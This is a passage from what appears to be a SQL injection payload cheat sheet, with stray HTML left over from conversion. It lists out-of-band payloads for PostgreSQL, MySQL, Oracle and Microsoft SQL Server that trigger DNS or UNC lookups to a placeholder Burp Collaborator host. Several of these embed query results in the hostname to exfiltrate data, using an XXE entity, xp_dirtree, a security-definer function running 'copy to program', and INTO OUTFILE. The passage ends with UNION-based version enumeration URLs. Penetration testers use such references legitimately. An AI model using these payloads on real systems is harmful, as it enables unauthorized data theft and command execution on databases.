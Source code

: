 ```
copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
```

<span id="anchor-139"></span>MySQL (Windows only)

```
LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'</p></td>
```

<span id="anchor-140"></span>SQL DNS Lookup w/Data Exfiltration

<span id="anchor-141"></span>Oracle

```
SELECT extractvalue(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root \[ &lt;!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"&gt; %remote;\]&gt;'),'/l') FROM dual
```

<span id="anchor-142"></span>Microsoft

```
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp\_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')
```

<span id="anchor-143"></span>PostgreSQL

```
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();</p></td>
```

<span id="anchor-144"></span>MySQL (Windows only)

```
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a'
```

<span id="anchor-145"></span>SQL Database Enumeration Examples

<span id="anchor-146"></span>Discover Database Version (Microsoft SQL,
MySQL)

```
http://&lt;someserver&gt;/comment.php?id=758 union all select 1,2,3,4,@@version,6
```

<span id="anchor-147"></span>Discover Database Version v1 (Oracle)

```
http://&lt;someserver&gt;/comment.php?id=758 union all select 1,2,3,4,v$version,6
```
